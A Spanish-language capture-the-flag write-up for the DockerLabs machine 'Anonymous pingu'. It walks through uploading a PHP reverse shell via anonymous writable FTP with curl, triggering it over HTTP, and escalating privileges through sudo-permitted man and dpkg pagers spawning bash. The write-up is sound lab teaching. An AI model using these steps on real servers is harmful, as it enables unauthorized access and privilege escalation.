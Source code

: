 # Anonymous pingu
## Reconocimiento
En primer lugar lanzo un nmap para identificar servicios, ya de primeras llama mucho la atención ese servidor FTP con un directorio que permite escritura y login anónimo.

![nmap](Ciberseguridad/CTFs/253_septiembre/11-anoymouspingu/imgs/nmap.png)

## Explotación
Ni siquiera hace falta visitar la página, basta con subir una revshell de PHP a la página y luego hacer una solicitud a `http://ip-dockerlab/upload/shell.php`. Subo el archivo al servidor FTP con `curl` y no da ningún problema, ahora sé que esta en `/upload`
```
curl -T shell.php ftp://172.17.0.2/upload/
```

Ahora, al visitar `http://172.17.0.2/upload/` me encuentro con esto:

![shell](shell.png)

Simplemente clico en el archivo y ya estoy dentro como `www-data`

![www-data](Ciberseguridad/CTFs/253_septiembre/11-anoymouspingu/imgs/www-data.png)


## Post explotación
Lo primero al entrar es sanitizar la shell con:
```
export SHELL=bash
export TERM=xterm-256color
source /etc/skel/.bashrc
```
Luego, lanzando un `sudo -l` rápidamente se ve que podemos escalar al usuario `pingu` a través del binario man, sin embargo, después de varios intentos veo que no hay manera, así que pruebo una [sanitización alternativa](https://invertebr4do.github.io/tratamiento-de-tty/#) por si era la shell y ahora si funciona.

![man](man.png)

![pingu](pingu.png)

Una vez ya soy pingu, al lanzar `sudo -l` de nuevo veo dos binarios a través de los que escalar al usuario `gladys`, y me quedo con `dpkg`, simplemente con:
```
sudo -u gladys dpkg -l
## Escribir !/bin/bash
```
Ya he escalado al usuario `gladys`

![gladys](gladys.png)

Después de un rato, no supe terminar esta parte, y me serví del [writeup de d1se0](https://dise0.gitbook.io/h4cker_b00k/ctf/dockerlabs/anonymouspingu-dockerlabs-easy#escalate-privileges) para aprender el método y finalizar.